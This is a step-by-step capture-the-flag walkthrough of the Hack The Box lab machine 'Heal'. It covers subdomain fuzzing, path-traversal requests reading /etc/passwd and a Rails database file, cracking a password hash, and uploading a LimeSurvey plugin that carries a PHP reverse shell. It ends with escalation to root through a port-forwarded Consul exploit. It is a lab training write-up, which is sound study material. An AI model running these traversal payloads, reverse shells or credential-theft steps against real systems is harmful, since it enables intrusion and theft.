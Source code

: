 **NOTES:**

VPN 10.10.11.46

1.  Add **heal.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  RUN: **Nmap -sV -Pn heal.htb**

Ports found: 22, 80

![](Heal/media/image1.png)

3.  **SUBDOMAIN-FUZZING**

RUN: **ffuf -w
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
http://monitorsthree.htb -H \"Host:FUZZ.monitorsthree.htb\" -ac**

![](Heal/media/image2.png)

4.  Add **api.heal.htb** to **/etc/hosts** file

![](Heal/media/image3.png)

5.  Open in Browser: heal.htb

- Register a USER

- After that, check the survey button, hover over TAKE THE SURVEY (There
  is a hidden URL)

![](Heal/media/image4.png)

![](Heal/media/image5.png)

6.  Add to **take-survey.heal.htb** to **/etc/hosts** file

7.  Open the hidden page

- Username **ralph** found

![](Heal/media/image6.png)

8.  Check hidden page. RUN: **dirsearch -u
    take-survey.heal.htb/index.php -t 50**

**Result**

![](Heal/media/image7.png)

**Opened**

![](Heal/media/image8.png)

9.  Go back to heal.htb/resume and login with your previously created
    account

10. Open Burpsuite and intercept the proxy

- Page loaded with INTERCEPT ON

![](Heal/media/image9.png)

- Result: 1 time forwarded. Send to Repeater

![](Heal/media/image10.png)

- Added Path traversal

**GET /download?filename=../../../../../etc/passwd HTTP/1.1**

![](Heal/media/image11.png)

- Search for HOME to find Users

![](Heal/media/image12.png)

Since we found that the website RUBY ON RAILS (api.heal.htb) used it, we
searched and got it's config file address

- Mod 1st line: **GET /download?filename=../../config/database.yml
  HTTP/1.1**

- **Click Send**

![](Heal/media/image13.png)

Download sqlite3 file

![](Heal/media/image14.png)

11. Crack PASSWORD HASH

- Create a txt file with the HASH inside

![](Heal/media/image15.png)

- RUN: **john test.txt \--wordlist=/usr/share/wordlists/rockyou.txt**

![](Heal/media/image16.png)

- Login via SSH not possible

- Login with found credentials, **USER:** ralph **PASSWORD:** 147258369
  on

[**http://take-survey.heal.htb/index.php/admin/home.php**](http://take-survey.heal.htb/index.php/admin/home.php)

![](Heal/media/image17.png)

Website Verison, see below.

![](Heal/media/image18.png)

12. **LimeSurvey-RCE** (Find a script on Github)

<https://github.com/Y1LD1R1M-1337/Limesurvey-RCE>

![](Heal/media/image19.png)

- Download **config.xml** and **php-rev.php** in Kali VM

- Add **version 6.0** to **config.xml INFO: otherwise it won't work**

![](Heal/media/image20.png)

- Check your **Kali machine's IP-ADDRESS** (COMMAND: ifconfig)

![](Heal/media/image21.png)

- Put this IP in the **php-rev.php** script

**Result:**

![](Heal/media/image22.png)

- ZIP both files (config.xml and php-rev.php)

INFO: Open new Terminal in same directory as both files are located!

RUN: **zip zipname config.xml php-rev.php**

![](Heal/media/image23.png)

13. Upload zipname.zip + activate plugin

![](Heal/media/image24.png)

Click 3rd step and select the file **zipname.zip**

![](Heal/media/image25.png)

Push INSTALL

![](Heal/media/image26.png)

![](Heal/media/image27.png)

Activate it

![](Heal/media/image28.png)

Activated

![](Heal/media/image29.png)

14. Start listener on Kali VM

RUN: **nc -lvnp 100**

![](Heal/media/image30.png)

15. To bounce shell, open this URL in Browser

**http://take-survey.heal.htb/upload/plugins/Y1LD1R1M/php-rev.php**

**SUCCEEDED**

![](Heal/media/image31.png)

16. Change directory to /var/www/limesurvey/application/config

- RUN: cat config.php

**USER + PASSWORD FOUND**

This **PASSWORD** can be used with **USER= ron (SSH login works)**

![](Heal/media/image32.png)

**INFO:** There is only 1 ralph user in the table, his password is the
same as the hash above = 147258369

**There is nothing that can be used in the database**

17. User FLAG: Cat user.txt

![](Heal/media/image33.png)

**PRIVILEGE ESCALATION**

1.  Transfer Linpeas.sh with SCP-COMMAND to SERVER and let it run.

2.  Start linpeas with: **./linpeas.sh**

![](Heal/media/image34.png)

3.  Port forwarding: RUN: **ssh -L 8500:127.0.0.1:8500 <ron@heal.htb>**

> ![](Heal/media/image35.png)

4.  Open website **http://127.0.0.1:8500**, check source code

**-Source code 1.19.2 found**

> ![](Heal/media/image36.png)

5.  Look for vulnerability <https://www.exploit-db.com/exploits/51117>

> Create exploit.py and put the script in

6.  Set NC listener to get bounce shell

**On Kali machine**:

RUN: **nc -lvnp 100**

> ![](Heal/media/image37.png)

7.  Send request to listener (to Kali VM)

> RUN (on Kali VM): **python exploit.py 127.0.0.1 8500 Kali-IP 100 0**
>
> ![](Heal/media/image38.png)

8.  Connection established. Found Root.txt

![](Heal/media/image39.png)
